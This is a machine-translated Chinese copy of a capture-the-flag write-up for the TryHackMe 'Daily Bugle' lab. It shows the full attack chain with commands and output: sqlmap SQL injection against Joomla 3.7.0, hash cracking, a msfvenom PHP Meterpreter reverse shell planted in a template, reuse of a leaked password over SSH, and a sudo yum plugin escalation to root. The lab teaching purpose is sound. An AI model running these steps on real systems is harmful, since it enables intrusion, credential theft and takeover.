






# TryHackMe 报道:每日号角

> 原文：<https://infosecwriteups.com/tryhackme-writeup-daily-bugle-87a52f234a82?source=collection_archive---------3----------------------->

《号角日报》是《蜘蛛侠》宇宙中虚构的小报。这也是 TryHackMe 工作人员创建的 TryHackMe room 的灵感来源，它要求其用户“*[c]通过 SQLi 泄露 Joomla CMS 帐户，练习破解哈希并利用 yum* ”提升您的权限([“TryHackMe”2020](https://tryhackme.com/room/dailybugle))。在本文中，我将讨论我用来获得系统初始访问权限的方法，窃取凭据以获得进一步的访问权限，然后使用权限提升方法来获得 root 访问权限。


图像库:[邓格基维基(2022 年 5 月 18 日修订)](https://dengeki.fandom.com/wiki/Heaven%27s_Memo_Pad?oldid=39308)

# 目录一览

1.  程序
2.  结束事项
3.  参考

# 程序

在继续之前，我必须定义这个房间的目标。最终目标是转储名为`user.txt`的低权限用户的文件内容，然后调用权限提升技术转储名为`root.txt`的根文件的内容。

我将通过编辑攻击箱上的`/etc/hosts`文件来做准备，以包含一个名为`dailybugle.thm`的伪域，它将指向目标系统的动态 IP 地址。在点击第一个任务右上角的绿色“*【s】start[m]machine*”之后，我开始探测系统，寻找获得初始访问权限的方法。

## 探索

我在我的*攻击框*中的一个网页浏览器的地址栏中输入了`dailybugle.thm`域名，看看是否有一个网站正在运行。确实有一个网站在运行，图 1 显示了返回的网页:


图 1

为了进一步探查这个系统，我使用了 [nmap (n.d.)](https://nmap.org/) 来枚举系统上运行的服务，并使用*gobuster*([Mehlmauer 等人的](https://github.com/OJ/gobuster))来查找端口 80 web 服务器上的任何隐藏子目录:

```
**┌──(dna@deniers)-[~/dailybugle]
└─$ sudo nmap -sT -A -v -Pn -p- -O -sC -oX tcp_scan.xml --max-scan-delay=5s -T4 dailybugle.thm**
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at [redacted]
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 06:01
Completed NSE at 06:01, 0.00s elapsed
Initiating NSE at 06:01
Completed NSE at 06:01, 0.00s elapsed
Initiating NSE at 06:01
Completed NSE at 06:01, 0.00s elapsed
Initiating Connect Scan at 06:01
Scanning dailybugle.thm [65535 ports]

[... snip ...]
```

```
**┌──(dna@deniers)-[~]
└─$ gobuster dir -u http://dailybugle.thm -w ./directories.txt -x php,bak,htm,html -t 40 -k**
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dailybugle.thm
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                ./directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              html,php,bak,htm
[+] Timeout:                 10s
===============================================================
[redacted] Starting gobuster in directory enumeration mode
===============================================================

[... snip ...]
```

当这些扫描器运行时，我决定手动检查 web 应用程序。具体来说，我检查了主页的 HTML 源代码，发现在`<head>`标记中嵌套了一个有趣的片段:

```
[... snip ...]

<base href="http://dailybugle.thm/" />
<meta name="description" content="New York City tabloid newspaper" />
<meta name="generator" content="Joomla! - Open Source Content Management" />
<title>Home</title>

[... snip ...]
```

有一个`<meta>`标签表明`generator`就是 [Joomla！](https://www.joomla.org/about-joomla.html)(未注明)内容管理系统。知道了这一点，我就可以精心设计针对 web 应用程序的攻击，专门利用 *Joomla* ！我应该选择攻击 web 服务的漏洞。在`nmap`扫描完成后，我使用 [xsltproc (n.d.)](http://xmlsoft.org/xslt/xsltproc.html) 将其 XML 输出转换为可读的 HTML 文档:

```
**┌──(dna@deniers)-[~/dailybugle]
└─$ xsltproc tcp_scan.xml -o tcp_scan.html

┌──(dna@deniers)-[~/dailybugle]
└─$**
```

图 2 描述了端口扫描的呈现 HTML:



图 2

目标系统正在运行以下服务:

*   端口 22 上的一个[OpenSSH(7.4 版)](https://www.openssh.com/txt/release-7.4)服务。
*   一个 [Apache HTTP 服务(2.4.6 版)](https://www.apachelounge.com/Changelog-2.4.html)与[PHP(5 . 6 . 40 版)](https://www.php.net/releases/5_6_40.php)在 80 端口。
*   端口 3306 上的 [MySQL (n.d.)](https://www.mysql.com/about/) 数据库的 [MariaDB (n.d.)](https://mariadb.org/about/) fork。

此外，目标系统很可能正在运行 [CentOS (n.d.)](https://www.centos.org/about/) Linux。以下是`gobuster`扫描的结果:

```
[... snip ...]

/.htm                 (Status: 403) [Size: 206]
/images               (Status: 301) [Size: 237] [--> http://dailybugle.thm/images/]
/index.php            (Status: 200) [Size: 9286]
/.html                (Status: 403) [Size: 207]
/media                (Status: 301) [Size: 236] [--> http://dailybugle.thm/media/]
/templates            (Status: 301) [Size: 240] [--> http://dailybugle.thm/templates/]
/modules              (Status: 301) [Size: 238] [--> http://dailybugle.thm/modules/]
/bin                  (Status: 301) [Size: 234] [--> http://dailybugle.thm/bin/]
/plugins              (Status: 301) [Size: 238] [--> http://dailybugle.thm/plugins/]
/includes             (Status: 301) [Size: 239] [--> http://dailybugle.thm/includes/]
/language             (Status: 301) [Size: 239] [--> http://dailybugle.thm/language/]
/components           (Status: 301) [Size: 241] [--> http://dailybugle.thm/components/]
/cache                (Status: 301) [Size: 236] [--> http://dailybugle.thm/cache/]
/libraries            (Status: 301) [Size: 240] [--> http://dailybugle.thm/libraries/]
/tmp                  (Status: 301) [Size: 234] [--> http://dailybugle.thm/tmp/]
/layouts              (Status: 301) [Size: 238] [--> http://dailybugle.thm/layouts/]
/administrator        (Status: 301) [Size: 244] [--> http://dailybugle.thm/administrator/]
/configuration.php    (Status: 200) [Size: 0]
/cli                  (Status: 301) [Size: 234] [--> http://dailybugle.thm/cli/]
/.html                (Status: 403) [Size: 207]
/.htm                 (Status: 403) [Size: 206]
Progress: 515433 / 1038220 (49.65%)[ERROR] [redacted] [!] Get "http://dailybugle.thm/subrelated.bak": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] [redacted] [!] Get "http://dailybugle.thm/subrelated.htm": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] [redacted] [!] Get "http://dailybugle.thm/subtestimonials.php": context deadline exceeded (Client.Timeout exceeded while awaiting headers)

[... snip ...]
```

注意，为了可读性，我编辑了一些错误消息。输出显示了一些有趣的子目录，如`/administrator`、`/plugins`和`/modules`，我认为它们通常与 *Joomla 相关联！*内容管理系统(参见 Joomla！ [n.d.-b](https://docs.joomla.org/Administrator_(Application)) ， [n.d.-c](https://docs.joomla.org/Module) )。这让我更加相信 *Joomla！*实际上是 web 应用程序的底层内容管理系统。

进一步探测目标系统的 Joomla！实例，我将使用`joomscan`([Espargham et al . n . d .](https://github.com/OWASP/joomscan))实用程序来测试漏洞并收集更多相关信息。以下是`joomscan`的节略输出:

```
[... snip ...]

Processing http://dailybugle.thm ...

[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
**[++] Joomla 3.7.0**

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking Directory Listing
[++] directory has directory listing : 
http://dailybugle.thm/administrator/components
http://dailybugle.thm/administrator/modules
http://dailybugle.thm/administrator/templates
http://dailybugle.thm/images/banners

[+] Checking apache info/status files     
[++] Readable info/status files are not found  

[+] admin finder  
[++] **Admin page : http://dailybugle.thm/administrator/** 

[+] Checking robots.txt existing  
[++] robots.txt is found  
path : http://dailybugle.thm/robots.txt 

Interesting path found from robots.txt  
http://dailybugle.thm/joomla/administrator/  

[... snip ...]                                                                                                 

[+] Finding common backup files name  
[++] Backup files are not found  

[+] Finding common log files name
[++] error log is not found

[+] Checking sensitive config.php.x file
[++] Readable config files are not found

Your Report : reports/dailybugle.thm/

[... snip ...]
```

虽然`joomscan`没有发现任何漏洞，但它确实报告了 3.7.0 版本。由此，我可以尝试基于其他安全专业人员之前的研究来手动扫描漏洞。粗略研究后，我发现 *Joomla！* 3.7.0 关于其`com_fields`模块易受 SQL 注入攻击( [Lino 2017](https://www.exploit-db.com/exploits/42033) )。

在这一点上，我努力利用漏洞。我决定参考另一位安全专家在利用该漏洞方面的工作。具体来说，我参考了[“MurilandOracle”(2020)](https://muirlandoracle.co.uk/2020/02/08/daily-bugle-write-up/)关于利用 SQL 注入漏洞的详细信息。我想我在表达 URL 攻击时很挣扎；我面对的是一个如下形式的 URL:

```
http://dailybugle.thm/index.php/2-uncategorised/1-spider-man-robs-bank
```

然而，[“MurilandOracle”(2020)](https://muirlandoracle.co.uk/2020/02/08/daily-bugle-write-up/)给出了下面的 URL 进行攻击，并指出它“喜怒无常”——意味着它在成功性上是不一致的:

```
http://dailybugle.thm/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml
```

## 初始访问:SQL 注入漏洞

我将从使用 *sqlmap* ( [Stampar 等人的](https://github.com/sqlmapproject/sqlmap))执行漏洞利用开始。这个房间的作者要求他们的用户“使用 python 脚本”，我认为这意味着开发他们自己的概念证明。因此，我将收集调试信息，并在将来返回到这个漏洞开发问题。然后我指示`sqlmap`转储`__users`数据库:

```
**┌──(dna@deniers)-[~/dailybugle]
└─$ sqlmap -u "http://dailybugle.thm/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump -v3**

[... snip ...]

[12:12:02] [DEBUG] cleaning up configuration parameters
[12:12:02] [DEBUG] setting the HTTP timeout
[12:12:02] [DEBUG] setting the HTTP User-Agent header
[12:12:02] [DEBUG] loading random HTTP User-Agent header(s) from file '/usr/share/sqlmap/data/txt/user-agents.txt'
[12:12:02] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (Windows; U; Windows NT 6.1) AppleWebKit/526.3 (KHTML, like Gecko) Chrome/14.0.564.21 Safari/526.3' from file '/usr/share/sqlmap/data/txt/user-agents.txt'                           
[12:12:02] [DEBUG] creating HTTP requests opener object
[12:12:03] [DEBUG] setting the HTTP Referer header to the target URL
[12:12:03] [DEBUG] setting the HTTP Host header to the target URL
[12:12:03] [DEBUG] resolving hostname 'dailybugle.thm'
[12:12:03] [INFO] testing connection to the target URL
[12:12:03] [DEBUG] declared web page charset 'utf-8'
[12:12:03] [DEBUG] got HTTP error code: 500 ('Internal Server Error')
[12:12:03] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
you have not declared cookie(s), while server wants to set its own ('eaa83fe8b963ab08ce9ab7d4a798de05=sv4pts6c7sg...pen4oo6pt1'). Do you want to use those [Y/n]

[... snip ...]
```

`--risk`和`--level`参数已被提升，因此该过程可能需要更长时间来评估 SQL 注入向量。我还使用了`--v3`标志将有效载荷请求打印到控制台上，以便进一步研究。在这个过程的一段时间后，`sqlmap`从`__user`表中返回以下条目—如表 1 所示:



表 1

记住用户凭证，我就更接近能够登录到 *Joomla 了！*超级管理员区。但我首先需要知道密码。

## 初始访问:密码破解

据我所知，至少有两种方法可以绕过 Joomla ！管理员登录表单；首先是*重置*它。`__user`表中有一列用于在请求密码重置时保存随机字符串。

不幸的是，我不认为这个漏洞适用于这个版本的 Joomla！，所以我将进行下一步:破解散列密码。我首先使用一个散列标识符工具([Hashes.com n . d .](https://hashes.com/en/tools/hash_identifier))来计算出这个版本的 *Joomla 使用的是哪种散列！*用途。图 3 描述了网站对我正在处理的散列类型的猜测:



图 3

它确定了以下用于哈希密码的算法:`bcrypt($plaintext)`、 *Blowfish* 和`bcrypt(md5($plaintext))`——代表 bcrypt 算法([provs&mazi eres 1999](https://www.usenix.org/legacy/events/usenix99/provos/provos_html/node5.html))、Blowfish 算法( [Schneier 1994](https://www.schneier.com/academic/archives/1994/09/description_of_a_new.html) )和另一个内嵌 MD5 哈希的 bcrypt 实例([provs&mazi eres 1999](https://www.usenix.org/legacy/events/usenix99/provos/provos_html/node5.html))；里维斯特 1992 年。

然后，我将哈希输出到一个名为`joomla_hash`的文件中，并使用*开膛手约翰* ( [Openwall n.d.](https://www.openwall.com/john/) )来破解哈希密码:

```
**┌──(dna@deniers)-[~/dailybugle]
└─$ john joomla_hash --wordlist=./rockyou.txt** 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:38 0.02% 0g/s 76.68p/s 76.68c/s 76.68C/s raluca..maricar
0g 0:00:04:00 0.10% 0g/s 74.66p/s 74.66c/s 74.66C/s 121981..020891
**spiderman123     (?)     <-- cracked password**
1g 0:00:10:59 DONE 0.001517g/s 71.06p/s 71.06c/s 71.06C/s sweetsmile..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

**┌──(dna@deniers)-[~/dailybugle]
└─$**
```

然后，我将窃取的凭证输入到网站的`/administrator`登录页面——如图 4 所示:



图 4

我输入用户名(图 4a)，密码(图 4b，“蜘蛛侠”)，然后点击“登录”按钮(图 4c)。这样做之后，我得到了 *Joomla* ！具有超级管理员权限的控制面板—如图 5 所示:



图 5

我决定上传一个 PHP web shell([Prodromou 2020](https://www.acunetix.com/blog/articles/introduction-web-shells-part-1/))来通过 Metasploit 的 meter preter([Mittal 2011](https://www.exploit-db.com/docs/18229))发起一个反向连接。我使用下面的命令通过 PHP 脚本生成一个反向的 Meterpreter。

```
**┌──(dna@deniers)-[~/dailybugle]
└─$ sudo msfvenom -p php/meterpreter/reverse_tcp LHOST=dailybugle.thm LPORT=4444 -f raw -o meterpreter.php**
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1111 bytes
Saved as: meterpreter.php

[... snip ...]
```

然后我通过`msfconsole`启动 Metasploit，让它通过`meterpreter.php`监听反向连接:

```
**┌──(dna@deniers)-[~/dailybugle]
└─$ sudo msfconsole**
[sudo] password for dna:

**msf6 > use exploit/multi/handler**
[*] Using configured payload generic/shell_reverse_tcp
**msf6 exploit(multi/handler) > set PAYLOAD php/meterpreter/reverse_tcp**
PAYLOAD => php/meterpreter/reverse_tcp
**msf6 exploit(multi/handler) > set LHOST attacker.thm**
LHOST => attacker.thm
**msf6 exploit(multi/handler) > set LPORT 4444**
LPORT => 4444
**msf6 exploit(multi/handler) > exploit**

[*] Started reverse TCP handler on attacker.thm:4444

[... snip ...]
```

我安装`meterpreter.php`的策略是修改一个 *Joomla* ！包含脚本的模板。为了简洁和可读性，我将跳过这一节，但推荐一篇由 [Williams (2019)](https://medium.com/@nickwilliams_/vulnerability-adventures-dc-3-416afe04c531) 撰写的文章，演示了一个不同的*捕获旗帜*难题的这种方法，该难题涉及在一个 *Joomla* 上安装一个 PHP 后门！内容管理系统。

具体来说，我修改了“原恒星”模板，并添加了一个名为`logging.php`的文件，其中将包含`meterpreter.php`代码。为了得到一个反向 shell，我需要触发`logging.php`脚本来执行。这可以通过[卷曲(未指定)](https://curl.se/docs/faq.html)实用程序来完成:

```
**┌──(dna@deniers)-[~/dailybugle]
└─$ curl http://dailybugle.thm/templates/protostar/logging.php**

[... snip ...]
```

不到一分钟，我就收到了目标系统的反向 shell:

```
[*] Started reverse TCP handler on attacker.thm:4444 
[*] Sending stage (39927 bytes) to dailybugle.thm
[*] Meterpreter session 1 opened (attacker.thm:4444 -> dailybugle.thm:42632) at [redacted]

**meterpreter >**
```

我再次引用了 ["MurilandOracle" (2020)](https://muirlandoracle.co.uk/2020/02/08/daily-bugle-write-up/) 来查找用户的标志文件，并使用了以下方法:我将转储目标系统的`configuration.php`文件，以获得一个用于凭证重用的密码:

```
**meterpreter > pwd**
/var/www/html/templates/protostar
**meterpreter > cd ../..
meterpreter > pwd**
/var/www/html
**meterpreter > cat configuration.php**
<?php
class JConfig {

[... snip ...]

        public $host = 'localhost';
        public $user = 'root';
        **public $password = 'nv5uz9r3ZEDzVjNu';**
        public $db = 'joomla';

[... snip ...]

        public $shared_session = '0';
}**meterpreter >**
```

我可以通过运行`/home`目录的`ls`来枚举系统上的用户:

```
}**meterpreter > ls /home**
Listing: /home
==============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040700/rwx------  99    dir   2019-12-15 19:47:48 -0500  jjameson

**meterpreter >**
```

我可以推断目标系统有一个名为`jjameson`的用户，并猜测他们的密码是`nv5uz9r3ZEDzVjNu`。我可以通过使用`ssh`实用程序访问他们的帐户来测试这个假设:

```
**┌──(dna㉿deniers)-[~/dailybugle]
└─$ ssh jjameson@dailybugle.thm** 
jjameson@dailybugle.thm's password: 
Last login: Mon Dec 16 05:14:55 2019 from netwars
**[jjameson@dailybugle ~]$**
```

现在我可以转储`jjameson`的标志了:

```
**[jjameson@dailybugle ~]$ ls**
user.txt
**[jjameson@dailybugle ~]$ cat user.txt**
[redacted]
**[jjameson@dailybugle ~]$**
```

非常好。

## 后剥削

我现在可以利用目标系统上的漏洞来获得根用户访问权限。我将尝试利用一个具有 root 权限的粘性位驱动的二进制文件( [Carrigan 2020](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit) )并欺骗它执行一个 shell。我可以使用`find`命令探测目标系统中设置了粘性位的文件，并将结果缩小到具有 root 权限的二进制文件:

```
**[jjameson@dailybugle ~]$ find / -type f -perm /4000 -print 2>/dev/null**
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/su
/usr/bin/sudo
/usr/bin/mount
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/passwd
/usr/sbin/unix_chkpwd
/usr/sbin/pam_timestamp_check
/usr/sbin/usernetctl
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
**[jjameson@dailybugle ~]$**
```

我将列举哪些二进制文件可以用`sudo`运行:

```
**[jjameson@dailybugle ~]$ sudo -l**
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME
    HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
**[jjameson@dailybugle ~]$**
```

`yum`二进制可以由`sudo`执行。我将使用 [GTFOBins (n.d.)](https://gtfobins.github.io/gtfobins/yum/) 提供的指南来利用`yum`执行命令。首先，我将尝试找到`root.txt`标志:

```
**[jjameson@dailybugle ~]$ find / -type f -name root.txt -print 2>/dev/null
[jjameson@dailybugle ~]$**
```

这次搜索没有得到任何有用的信息。相反，我将尝试生成一个交互式的根 shell，而不是我原来的计划(这更容易实现:执行一个单独的`cat root.txt`命令):

```
**[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF**
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
**[jjameson@dailybugle ~]$ 
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF**
> [main]
> enabled=1
> EOF
**[jjameson@dailybugle ~]$ 
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF**
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
**[jjameson@dailybugle ~]$ 
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y**
Loaded plugins: y
No plugin match for: y
**sh-4.2# id**
uid=0(root) gid=0(root) groups=0(root)
**sh-4.2#**
```

这很好。我现在可以转储包含标志的`root.txt`:

```
**sh-4.2# cat /root/root.txt**
[redacted]
**sh-4.2#**
```

阿洛拉。

# 结束事项

这是一个难度适中的试衣间。像往常一样，我调用了一种攻击性的安全方法来探测 boot2root 目标系统中可能被利用来获得初始进入的弱点。我利用了一个过时的 Joomla 上的 SQL 注入漏洞！内容管理系统，破解其散列密码，然后以此为基础进入 Joomla！超级管理员面板。

之后，我不得不转储更多的配置文件来发现关于我的目标的更多信息，然后以此为基础在不同的凭证下重新进入目标系统。最后，我用`sudo`权限开发了与 *CentOS* 相关的包管理系统，以获得一个交互式根 shell，让我自己完全控制目标系统。

一些要点如下:

*   当获得初始访问权时，不要认为获得的特权与其他任何用户相同。Apache HTTP 服务器的特权与`jjameson`的不同。
*   有时需要更多的探测来访问目标系统的不同部分，而不一定是`root`帐户。在某些情况下，可能无法获得对目标系统的超级用户访问权限，因此攻击性安全工程师需要满足于他们可以获得的任何非超级用户权限。
*   Joomla ！s `configuration.php`文件可能包含关于目标系统的有用信息。一定要把这些添加到你的“思维导图”中再者，*珠姆拉*！可以很容易地被黑客攻击来存储 PHP 脚本，允许后门。

## 承认

我要感谢[穆兰多尔](https://muirlandoracle.co.uk/)和[尼克威廉姆斯](https://medium.com/@nickwilliams_)给我写的非常有帮助的文章😉)做这个房间时参考的。我会承认我一路上卡了几次，如果没有他们的监护，我不可能完成这个房间！

## 行动呼吁:米拉·拉辛

像往常一样，我只想为米拉·拉齐奥在左撇子空间的惊人工作而欢呼。为了让这个世界变得更好，她所做的已经超过了愚蠢的艺术家谷的所有技术人员的总和。去跟随她自己在她的新乳齿象帐户❤️

[](https://kolektiva.social/@MiraLazine) [## 不变量(@miralazine@kolektiva.social)

### 100 个帖子，87 个以下，38 个追随者复数，跨性别，残疾，神经分歧，无政府主义未成年人 DNI 如果你需要一个…

kolektiva.social](https://kolektiva.social/@MiraLazine) 

## 行动号召:我的东西

对于喜欢我的作品但尚未注册 Medium 会员计划的读者，如果他们能通过我的推荐链接注册，我将不胜感激(这在经济上帮助了我 https://medium.com/membership/@EpsilonCalculus ❤️):[和](https://medium.com/membership/@EpsilonCalculus)

此外，对于任何喜欢阅读我的黑客文章的读者，我邀请他们看看我的技术文章系列，主要由 CTF 的文章组成，但也有其他计算机和 STEM 内容😃


阿列克谢

## 技术报道

[View list](https://medium.com/@EpsilonCalculus/list/technical-writeups-63f8cfbee59c?source=post_page-----87a52f234a82--------------------------------)43 stories

# 参考

Apache HTTP 服务(2.4.6 版)。*更改日志*。阿帕奇休息室。2022 年 12 月 13 日检索自:[https://www.apachelounge.com/Changelog-2.4.html](https://www.apachelounge.com/Changelog-2.4.html)

t .卡里根(2020 年)。 *Linux 权限:SUID、SGID 和粘滞位*。红帽子。2022 年 12 月 16 日检索自:【https://www.redhat.com/sysadmin/suid-sgid-sticky-bit 

厘斯(未标明日期)。*关于 CentOS* 。2022 年 12 月 13 日检索自:[https://www.centos.org/about/](https://www.centos.org/about/)

卷曲(未标明)。*常见问题*。2022 年 12 月 16 日检索自:【https://curl.se/docs/faq.html 

邓格基维基(2022 年 5 月 18 日修订)。*天堂的记事本*。2022 年 12 月 17 日检索自:[https://dengeki.fandom.com/wiki/Heaven%27s_Memo_Pad?oldid=39308](https://dengeki.fandom.com/wiki/Heaven%27s_Memo_Pad?oldid=39308)

